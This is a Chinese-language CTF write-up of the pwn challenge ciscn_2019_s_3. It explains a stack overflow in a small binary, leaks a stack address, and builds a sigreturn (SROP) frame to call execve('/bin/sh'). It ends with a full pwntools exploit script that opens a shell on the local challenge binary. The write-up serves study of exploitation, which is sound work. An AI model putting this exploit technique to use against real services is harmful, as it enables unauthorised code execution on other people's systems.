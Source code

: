 # ciscn_2019_s_3


之前学习了SROP但是一直没有实践过，刚好这道题需要使用SROP才能利用，记录一下。

<!--more-->

# 涉及知识

+ SROP
+ syscall

# 程序分析

## 保护机制

![image-20200520113325566](https://i.loli.net/2020/05/20/FaOn4zKNxZyWh19.png)

开启NX和部分RELRO

## 程序分析

![image-20200520113343460](https://i.loli.net/2020/05/20/SUsvilxfMgPnh8e.png)

在vuln函数处，看起汇编代码可以知道第一个syscall调用的是read函数并读入0x400个字节数据到buf中，而buf距离rsp只有0x10所以这里存在栈溢出。

![image-20200520113355401](https://i.loli.net/2020/05/20/Ya964GO7S28qyJ5.png)

gadget函数是将rax的值更改为15，而15是signerature的调用好，从这里可以猜测处出题人先考察的是SROP的知识。

## 漏洞利用

漏洞利用分为两步第一步是泄漏stack的值，第二步是调用execve('/bin/sh',0,0)

### 泄漏stack

我们用gdb调试程序后观察到在rsp+0x8处存储了stack地址，而write的大小为0x30刚好可以把rsp+0x8处的地址给leak出来。

![image-20200520113406954](https://i.loli.net/2020/05/20/TnEJNDGHz5t3qIA.png)

### 构造Sgineraturn frame

这里就不详细介绍关于SROP的原理，详细的教程请移步参考链接。由于我们泄露了stack地址我们可以把/bin/sh字符串写到stack中，再构造execve系统调用的sgneraturn frame就可以获得shell。

# EXP

````python

from pwn import *
sh=process('./cis')

context.arch='amd64'
vuln_start=0x00000000004004F1
syscall_ret=0x0000000000400517
hint=0x00000000004004DA
#leack stack
payload='a'*0x10
payload+=p64(vuln_start)
sh.sendline(payload)
stack_addr=u64(sh.recv()[32:40])-0x100

#make signal Frame and get shell
payload='a'*0x10
payload+=p64(hint)
payload+=p64(syscall_ret)
sigframe=SigreturnFrame()
sigframe.rax=constants.SYS_execve
sigframe.rdi=stack_addr+0x110
sigframe.rsi=0
sigframe.rdx=0
sigframe.rsp=stack_addr
sigframe.rip=syscall_ret
payload+=str(sigframe)
payload+=(0x120-len(payload))*'\x00'+'/bin/sh\x00'
sh.sendline(payload)

#gdb.attach(sh)
sh.interactive()
````

# 反思

想要利用SROP的话需要有足够大的溢出空间和system_ret以及修改rax的gadget，不过rax也可以通过read函数读入的个数来进行修改。总的来说感觉SROP是一个挺好玩的利用方法，利用的时候要注意恢复后rsp寄存器的值。

### 参考

[SROP原理](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop-zh/)




